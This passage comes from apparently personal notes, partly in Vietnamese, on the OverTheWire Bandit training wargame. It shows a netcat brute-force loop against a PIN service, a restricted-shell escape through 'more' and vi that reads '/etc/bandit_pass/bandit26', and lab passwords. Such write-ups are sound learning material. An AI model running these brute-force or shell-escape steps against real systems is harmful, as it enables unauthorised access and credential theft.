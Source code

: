 -P 20 : process 20 currenly 

bash -c ‘’ :  chạy script với bash shell 

1. response=$(echo "'$password_bandit24' {}" | nc -w 1 '$server' '$port') : 

⇒ lưu kết quả trả về 

1. kiểm tra 

if [[ $response == *"Correct"* ]]; then ... fi

Đây là cú pháp so sánh chuỗi trong bash , nó kiểm tra xem biến response chứa chuỗi “Correct”  ở bất kì vị trí nào không .

Nếu có  thì in ra response và kill 0 : dừng tất cả tiến trình hiện tại trong shell 

```jsx
pass : iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

## Level 25

```jsx
username:x:UID:GID:comment:home_directory:shell

bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext

//
shell tùy chỉnh là : /urs/bin/showtext 

//shell detail 
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0

ls l scle

/*
more subcommand trong interact 
*/

=> vi

=> :set shell=/bin/bash 

:! cat /etc/bandit_pass/bandit26

pass: s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ

```

## Level 26
